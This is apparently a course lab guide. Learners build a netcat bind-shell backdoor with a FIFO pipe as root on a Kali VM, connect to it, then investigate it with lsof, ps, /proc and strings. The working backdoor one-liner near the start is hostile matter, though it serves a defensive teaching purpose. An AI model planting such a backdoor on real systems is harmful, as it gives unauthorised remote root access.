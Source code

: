 ![image](https://github.com/user-attachments/assets/068fae26-6e8f-402f-ad69-63a4e6a1f59e)


# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running **three** different Kali terminals.

 > Terminal 1 is where the backdoor will be run.

 > Terminal 2 is where we will connect to the back door.

 > Terminal 3 is where we will be running our analysis.

***

Let's get started by opening a terminal as **Administrator**

You can do this by right clicking the icon on the desktop and selecting open...

![](attachments/OpeningKaliInstance.png)

<b>Or...</b> you can simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Once your **Kali** terminal opens, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt. We want to do this in order to have a backdoor running as root and a connection from a different user account on the system.

Next, we will need to create a **FIFO** backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

<pre>/bin/bash backpipe 0&lt;backpipe | nc -l 2222 1>backpipe</pre>

In the above command, we are creating a **Netcat listener** that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the **Netcat listener**. 

On a more basic level, this will create a backdoor listening on port 2222 of our **Linux** system.

Now, let's open another **Kali** terminal.  This terminal will connect to the backdoor we just created.  

You can do this by right clicking the icon on the desktop and selecting open...

![](attachments/OpeningKaliInstance.png)

<b>Or...</b> you can simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we will need to know the IP address of our **Linux** system:

<pre>ifconfig</pre>

![](attachments/ifconfigKaliInstance.png)

>[!NOTE]
>
>**YOUR IP WILL BE DIFFERENT**

Now, let's connect:

<pre>nc 10.10.104.64 2222</pre>

>[!NOTE]
>
>**YOUR IP WILL BE DIFFERENT**


It can be confusing to tell whether or not you are connected to the backdoor. 

Type a few commands to see if its working:

<pre>ls</pre>

<pre>whoami</pre>

![](attachments/lswhoamiKaliInstance.png)

At this point, we have created a backdoor with one terminal, and we have connected to this backdoor with another terminal.  Now, let's open yet another **Kali** terminal and use this use for the purpose of analysis.  

Let's begin by using one of the two methods used earlier to open a new **Kali** Terminal.  

You can do this by right clicking the icon on the desktop and selecting open...

![](attachments/OpeningKaliInstance.png)

<b>Or...</b> you can simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.  When we say root prompt we mean a terminal with the highest level of permission possible.  We want to be in a root prompt because looking at network connections and process information system wide requires root privileges (or the highest level of privileges).  

Let's start by looking at the network connections with **lsof**.  When we use **lsof**, we are looking at open files.  When we use the **-i** flag we are looking at the open Internet connections.  When we use the **-P** flag we are telling **lsof** to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/lsof-i-pKaliInstance.png)

Now let's dig into the **netcat process ID**.  We can do this with the lowercase **-p** switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p [PID]</pre>

>[!NOTE]
>
>**Your PID will be different!!!**

![](attachments/lsof-pKaliInstance.png)

Let's look at the full processes.  We can do this with the **ps** command. We are also adding the **a**, **u**, and **x switches**.  

* a is for all processes
* u is for sorted users
* x is for all processes using a teletype terminal

Type out this command.

<pre>ps aux</pre>

![](attachments/psauxKaliInstance.png)

Let's change directories into the **proc** directory for that **pid**.  Remember, **proc** is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

>[!NOTE]
>
>**Your PID will be different!!!**

![](attachments/procPIDKaliInstance.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/lsKaliInstance.png)

We can run the **strings** command on the executable in this directory.  When programs are created there may be usage information, mentions of system libraries, and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe | less</pre>

![](attachments/strings_exelessKaliInstance.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

To reveal more information in the output, press **"enter"**.

![](attachments/netcatusageKaliInstance.png)

***
***Continuing on to the next Lab?***

[Click here to get back to the Navigation Menu](/IntroClassFiles/navigation.md)

***Finished with the Labs?***


Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

[Return To Lab List](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/navigation.md)

---



